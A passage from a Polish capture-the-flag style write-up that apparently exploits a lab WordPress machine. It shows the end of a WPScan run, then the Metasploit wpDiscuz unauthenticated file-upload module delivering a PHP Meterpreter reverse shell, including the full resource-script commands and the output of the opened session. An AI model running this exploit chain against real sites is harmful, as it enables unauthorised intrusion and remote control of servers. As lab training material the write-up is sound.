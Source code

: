 ```console
[+] Finished: Wed Sep 29 21:47:47 2021
[+] Requests Done: 95383
[+] Cached Requests: 17
[+] Data Sent: 24.221 MB
[+] Data Received: 26.402 MB
[+] Memory used: 455.578 MB
[+] Elapsed time: 00:32:59
```
Wszystko to trwało ponad pół godziny. **Wpscan** znalazł trochę przestarzałych i podatnych na włamania pluginów. Jednak to co nas interesuje to plugin **wpDiscuz**. Jego wersja, przy pewnych okolicznościach umożliwia wysyłanie na serwer dowolnego pliku. Sprawdźmy, czy ta podatność jest znana **Metasploit**owi:
{: .text-justify}
## 05. Metasploit i jego cudowne moduły
```console
msf6 > search wpdiscuz

Matching Modules
================

   #  Name                                                         Disclosure Date  Rank       Check  Description
   -  ----                                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload  2020-02-21       excellent  Yes    WordPress wpDiscuz
 Unauthenticated File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
```
Jak widać jest moduł. Zobaczmy czy zadziała.
{: .text-justify}
```console
msf6 > resource wordpress.rc
[*] Processing /home/szikers/beloved/wordpress.rc for ERB directives.
resource (/home/szikers/beloved/wordpress.rc)> use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
[*] Using configured payload php/meterpreter/reverse_tcp
resource (/home/szikers/beloved/wordpress.rc)> set BLOGPATH /2021/06/09/hello-world/
BLOGPATH => /2021/06/09/hello-world/
resource (/home/szikers/beloved/wordpress.rc)> set rhosts 172.16.1.200
rhosts => 172.16.1.200
resource (/home/szikers/beloved/wordpress.rc)> set lhost eth0
lhost => eth0
resource (/home/szikers/beloved/wordpress.rc)> run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.10:4444
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > [*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Payload uploaded as PTxqXtkbtae.php
[*] Calling payload...
[*] Sending stage (39282 bytes) to 172.16.1.200
[*] Meterpreter session 1 opened (172.16.1.10:4444 -> 172.16.1.200:34786) at 2021-10-01 13:41:16 +0200
```
## 06. Shell i co dalej?